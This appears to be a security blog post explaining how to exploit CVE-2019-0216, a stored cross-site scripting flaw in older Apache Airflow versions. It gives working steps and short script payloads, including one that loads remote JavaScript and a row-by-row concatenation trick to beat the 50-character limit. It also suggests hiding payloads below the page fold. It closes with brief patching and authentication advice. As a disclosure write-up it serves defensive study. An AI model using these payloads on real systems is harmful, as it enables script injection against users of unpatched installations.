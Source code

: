 ```yaml
---
layout: post
title:  "cve-2019-0216: stored xss in apache airflow"
toc: true
date:   2020-06-16
categories: network-pentest
---
```


# motivation 

A while back I (and several other researchers concurrently) reported CVE-2019-0216 to Apache -- a stored XSS in Apache Airflow. Airflow is a workflow orchestration platform, and isn't uncommon to come across on an engagement. If you find an older installation there is a fun opportunity for getting stored XSS.


# prerequisites

If the installation is out-of-date (< 1.10.3 according to Apache), it is theoretically vulnerable (though I can't currently reproduce against manual out-of-date installs from PyPI due to some severe dependency drift). In any case, Airflow suffered from this vulnerability in late February 2019 when it was reported to Apache.

Additionally, the CVE describes the vuln as being possibly exploited by a 'malicious admin', which is technically true, however auth is disabled by default. So if auth has been enabled, you'll need credentials to perform the attack.


# exploiting

Visit the `/admin/dagrun/` endpoint (by default not password protected). 

If there aren't a few "DAG runs" listed, create a few, giving them any ID, and leave the state as 'running'.

![](/screens/airflow-bogus-ids.png)

Back on the listing screen, you'll notice that you can click on the 'running' status indicator and input HTML. 

![](/screens/airflow-inject-script.png)

The input is limited to 50 characters, which I believe was intended as an XSS defense, however this is easily overcome.

If you own a short domain, you can use the protocol inheritance and a short script name to just directly include your payload. Something like:

```
<script src="//127.0.0.1/j.js"></script>
```

Or, using variables, string concatenation, etc., you can glue a script together in separate rows of the table.

A simple example would be something like:

```
<script>_a="https://b4ny4n.github.io"</script>
```

... and then

```
<script>document.location=_a</script> 
```

As you save the rows, they're properly escaped into the page:

![](/screens/airflow-pre-render.png)

But on a fresh load of the page the content will be directly injected into the DOM:

![](/screens/airflow-output.png)

At this point you can drop your favorite xss payload. Depending on the state of the airflow installation (there could be many, many DAGs) you can also hide your payloads throughout rows below the page fold to be less obvious.

# if you're defending

These kinds of issues are best prevented by a good scanning + patching cadence and basic password hygiene (like enabling authentication, and requiring strong passwords). 